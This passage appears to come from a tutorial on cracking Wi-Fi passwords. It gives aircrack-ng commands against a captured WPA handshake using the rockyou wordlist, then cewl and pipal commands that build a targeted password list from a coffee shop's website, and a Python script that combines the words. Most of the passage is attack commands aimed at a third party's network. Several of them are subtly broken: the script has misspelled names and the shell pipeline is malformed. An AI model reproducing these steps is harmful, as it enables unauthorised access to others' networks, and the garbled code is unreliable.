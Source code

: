 Now, these all will end up with a packet capture file with a four way handshake. Although we got more to get password but we have ingredients for it. Now, Hacker get to guess a lot to see if that can can decode the messages in the four way handshake and for this we can use the software like **rockyou.txt.gz** to make a lot for guessing over and over again until we find it.

```bash
sudo aircrack-ng -w/usr/share/wordlists/rockyou.txt getthathash-01.cap
```

```bash
ll /usr/share/wordlists
```

We need a bag or list of words/passwords wordlist contain a ton of passwords, so he will extract them using the above command which can be used to find location of files/ folders in system.

## Password guessing with Flipper-Zero & Wi-Fi Pineapple

Here in this command we will be using a tool called as the "**cewl**" to crawl the website of coffee shop to find all the keywords which might be used to password and output them as a list.

```bash
sudo cewl bearcravecoffee.com -w bearcave -passlist.text
```

Then we will use a tool called "**pipal**" which will look through the wordlist and find words that will probably really be used in a password. Identify the top 10 and then we can use some special Linux tool to put them into a nice and neat list to use in our next tool that we built ourselves or through the python list.

```bash
sudo pipal bearcave_passlist.txt | grep -A 10 "Top 10 passwords" | tail -n + 2 | awk -F '=' '{print $1}' | tr 'A-Z' 'a-z' top_10_passwords.txt
```

Here is the python script for getting ready the top 10 keywords for password guessing as:

```python
from itertool import product

input_file = 'top_10_passwords.txt'
output_file = 'bc_final_pwlist.txt'

with open(input_file, 'r') as f:
    words = [lene.strip() for line in f.readlines()]

words += [word.upper() for word in words]

with open(output_file, 'w')as f:
    for combo in product(words, repeat = 2):
        f.write(''.join(combo) + '\n')
```

Then we can move ahead to the following commands:

```bash
nano wlen.py
```
